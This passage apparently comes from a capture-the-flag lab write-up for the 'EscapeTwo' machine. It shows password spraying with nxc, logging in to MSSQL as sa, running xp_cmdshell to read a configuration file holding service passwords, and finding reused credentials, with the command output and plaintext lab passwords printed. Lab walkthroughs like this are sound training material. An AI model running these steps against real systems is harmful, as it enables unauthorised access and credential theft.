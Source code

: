{% code overflow="wrap" %}
```bash
# Password-spray with the new passwords
$ nxc smb escapetwo -u domain_users -p passwords --continue-on-success | grep +
SMB                      10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su
SMB                      10.10.11.51     445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG
```
{% endcode %}

{% code overflow="wrap" %}
```bash
$ nxc mssql escapetwo -u sa -p MSSQLP@ssw0rd! --local-auth -x whoami
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL       10.10.11.51     1433   DC01             [+] Executed command via mssqlexec
MSSQL       10.10.11.51     1433   DC01             sequel\sql_svc
```
{% endcode %}

```bash
$ impacket-mssqlclient sequel.htb/sa@escapetwo
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (sa  dbo@master)>
```

{% code overflow="wrap" %}
```bash
SQL (sa  dbo@msdb)> EXEC xp_cmdshell 'type c:\SQL2019\ExpressAdv_ENU\sql-configuration.ini'
...
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
...
```
{% endcode %}

{% code overflow="wrap" %}
```bash
$ nxc smb escapetwo -u domain_users -p passwords --continue-on-success | grep +
SMB                      10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su
SMB                      10.10.11.51     445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG
SMB                      10.10.11.51     445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3
SMB                      10.10.11.51     445    DC01             [+] sequel.htb\sql_svc:WqSZAF6CysDQbGb3
```
{% endcode %}
